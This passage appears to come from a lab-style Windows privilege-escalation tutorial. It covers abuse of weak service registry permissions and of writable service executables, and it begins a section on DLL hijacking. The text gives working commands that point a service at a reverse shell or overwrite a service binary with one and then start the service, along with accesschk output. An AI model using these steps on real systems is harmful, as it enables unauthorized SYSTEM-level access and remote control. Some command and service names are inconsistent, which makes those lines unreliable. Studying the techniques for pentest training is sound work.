 Note that the ImagePath is set to "C:\\Program Files\\Insecure Registry Service\\insecureregistryservice.exe"

4. Overwrite the ImagePath registry key to point to our reverse shell executable:
```cmd
> reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

5. Start a listener on kali, and trigger the exploit:
```cmd
> net start regsvc
```

### Insecure Service Executables
If the orignial service executable is modifiable by our user, we can simply replace it with our reverse shell executable. 
Remember to create a backup of the original executable if you are exploiting this in a real system!

1. Check that an executable is writable using accesschk.exe:
```cmd
> .\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"

  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW WIN10-1\campb
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS
```

Verify that you can start/stop the service
```cmd
.\accesschke.exe /accepteula -uvqc filepermservice.exe
```

2. Create a backup:
```cmd 
> copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp
```

3. Copy the reverse shell executable to overwrite the service 
```cmd
> copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
```

4. Start the listener and start the service
```cmd
> net start filepermsvc
```

### DLL Hijacking
Often a service will try to load functionality from a library called a DLL (Dynamic-Link Library). Whatever functionality the DLL provides, will be executed with the same privileges as the service that loaded it. 
If a DLL is loaded with an absolute path, it might be possible to escalate privileges if that DLL is writable by our user.
